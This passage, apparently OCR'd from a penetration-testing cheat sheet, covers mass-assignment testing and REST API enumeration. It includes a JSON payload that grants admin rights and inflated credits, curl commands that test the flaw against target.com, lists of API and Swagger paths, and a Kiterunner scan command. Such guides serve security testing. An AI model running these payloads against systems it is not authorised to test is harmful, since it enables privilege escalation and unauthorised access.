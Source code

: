 ```bash
    "password": "password123",
    "is_admin": true,
    "role": "administrator",
    "verified": true,
    "credits": 999999
}

# If vulnerable, user is created with admin privileges
```

**Testing approach:**

```bash
# 1. Identify object properties by viewing API responses
curl http://target.com/api/user/123
# Response shows: {"id":123,"username":"test","is_admin":false,"credits":100}

# 2. Try to modify restricted properties
curl -X POST http://target.com/api/user/update \
    -d '{"username":"test","is_admin":true,"credits":999999}'

# 3. Check if changes persisted
curl http://target.com/api/user/123
```

---

## API Security Testing

### REST API Enumeration

```bash
# Common API endpoints
/api/v1/users
/api/v1/auth/login
/api/v1/auth/register
/api/v2/products
/api/admin/config
/api/docs
/api/swagger
/api/graphql

# API documentation paths
/swagger.json
/swagger.yaml
/openapi.json
/api/swagger-ui.html
/api-docs
/docs
/redoc

# Download API documentation
curl http://target.com/swagger.json | jq . > api_spec.json

# Kiterunner (API endpoint discovery)
kr scan target.com -w ~/api-wordlist.txt
```
